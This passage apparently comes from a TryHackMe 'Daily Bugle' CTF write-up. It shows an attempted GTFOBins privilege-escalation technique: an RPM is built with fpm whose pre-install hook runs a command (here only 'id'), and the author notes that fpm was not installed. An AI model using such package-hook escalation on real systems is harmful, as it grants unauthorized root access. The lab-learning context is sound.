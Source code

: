 ![GTFOBins YUM](/assets/TryHackMeRoomsImage/DailyBugle/image5.png)

Attempted the `fpm` method, but `fpm` was not installed:
```bash
TF=$(mktemp -d)
echo 'id' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
```
